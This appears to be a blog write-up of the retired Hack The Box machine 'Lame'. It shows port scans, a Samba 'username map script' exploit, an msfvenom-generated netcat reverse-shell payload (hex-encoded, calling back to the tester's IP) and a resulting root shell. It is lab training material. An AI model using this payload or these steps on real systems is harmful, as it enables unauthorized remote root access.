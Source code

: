 ```yaml
---
layout: post
title: Hack the Box - Lame
date: 2020-03-16 22:11:22 +0100
description: Lame is a beginner level machine, requiring only one exploit to obtain root access. It was the first machine published on Hack The Box and was often the first machine for new users prior to its retirement.
img: lame.png
fig-caption: Lame
categories: HackTheBox
tags: [Easy, Linux, Retired, CVE]
---
```

## Overview
Lame is a beginner level machine, requiring only one exploit to obtain root access. It was the first machine published on Hack The Box and was often the first machine for new users prior to its retirement.
## Enumeration
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/legacy]
└─$ sudo nmap -p- -T4  10.129.113.79  
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-14 15:29 GMT
Nmap scan report for 10.129.113.79
Host is up (0.017s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd
```
After running initial port enumeration the ports that seem most of interest are 139,445 and possibly 3632. However after service version enumeration and a google we find there is common samba vulnerability for this version called "username map script" exploit.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/legacy]
└─$ sudo nmap -p139,445 -A  10.129.113.79
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-14 15:42 GMT
Nmap scan report for 10.129.113.79
Host is up (0.018s latency).

PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
```
## Foothold
As we used metaploit for the previous box I was keen to not use it for this box although there is module that can be utilised. While googling during enumeration I found the following exploit: https://gist.github.com/joenorton8014/19aaa00e0088738fc429cff2669b9851 First we need to create the payload to place in this script.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/lame]
└─$ msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.14.27 LPORT=9999 -f python
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 93 bytes
Final size of python file: 471 bytes
buf =  b""
buf += b"\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x69"
buf += b"\x61\x7a\x75\x76\x3b\x20\x6e\x63\x20\x31\x30\x2e\x31"
buf += b"\x30\x2e\x31\x34\x2e\x32\x37\x20\x39\x39\x39\x39\x20"
buf += b"\x30\x3c\x2f\x74\x6d\x70\x2f\x69\x61\x7a\x75\x76\x20"
buf += b"\x7c\x20\x2f\x62\x69\x6e\x2f\x73\x68\x20\x3e\x2f\x74"
buf += b"\x6d\x70\x2f\x69\x61\x7a\x75\x76\x20\x32\x3e\x26\x31"
buf += b"\x3b\x20\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x69\x61\x7a"
buf += b"\x75\x76"
```
In order to run it I used a docker container as we need to install dependencies for python 2.7
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/lame]
└─$ sudo docker run -v "$(pwd)":/lame -it --entrypoint /bin/bash python:2.7.18-stretch
root@2d402da68463:/# cd /lame
root@2d402da68463:/lame# pip install impacket
root@2d402da68463:/lame# pip install 
root@2d402da68463:/lame# python samba-exploit.py 10.129.113.79
```
Then we can start a listener, and after executing the exploit we should receive a shell.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/lame]
└─$ nc -nlvp 9999        
listening on [any] 9999 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.113.79] 39795
which python
/usr/bin/python
python -c "import pty; pty.spawn('/bin/bash')"
root@lame:/# whoami
whoami
root
```
## Privilege Escalation
As we attained root from this exploit and have access to the root flag, there is no need for privilege escalation.